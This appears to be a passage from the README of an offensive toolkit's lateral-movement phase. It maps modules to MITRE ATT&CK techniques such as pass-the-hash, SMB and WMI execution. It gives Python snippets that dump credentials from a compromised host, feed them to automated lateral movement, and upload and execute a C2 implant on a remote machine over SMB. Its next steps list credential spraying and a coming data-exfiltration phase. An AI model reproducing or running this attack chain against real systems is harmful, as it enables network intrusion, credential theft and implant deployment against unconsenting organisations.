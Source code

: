 **Expected Results:**
- 35 tests total
- 100% pass rate
- 55%+ code coverage (for lateral movement modules)

## MITRE ATT&CK Mapping

Phase 4 implements the following MITRE ATT&CK techniques:

- **T1021.001** - Remote Services: Remote Desktop Protocol (preparation)
- **T1021.002** - Remote Services: SMB/Windows Admin Shares
- **T1021.003** - Remote Services: Distributed Component Object Model
- **T1021.006** - Remote Services: Windows Remote Management
- **T1047** - Windows Management Instrumentation
- **T1550.002** - Use Alternate Authentication Material: Pass the Hash
- **T1570** - Lateral Tool Transfer
- **T1021** - Remote Services

## Integration with Other Phases

**Phase 3 Integration (Persistence):**
```python
from lateral_movement.automated_lateral import AutomatedLateralMovement
from persistence.credential_dumping import CredentialDumper

# Dump credentials from compromised host
dumper = CredentialDumper()
creds = dumper.dump_all()

# Use for lateral movement
scanner = AutomatedLateralMovement()
for cred in creds:
    if cred.credential_type == 'password':
        scanner.add_credential(cred.username, cred.value, cred.domain or '.')
```

**Phase 1 Integration (C2):**
```python
from lateral_movement.smb_wmi import SMBExecution

# Deploy C2 implant via lateral movement
smb = SMBExecution('192.168.1.100', 'admin', 'Password123')
smb.upload_file('c2/implant/basic_implant.py', 'C$\\temp\\implant.py')
smb.psexec_execute('python C:\\temp\\implant.py')
```

## Next Steps

After Phase 4:
1. Verify lateral movement capabilities
2. Test credential spraying with rate limiting
3. Document compromised hosts
4. Proceed to Phase 5: Data Exfiltration
5. Continue building comprehensive attack chain
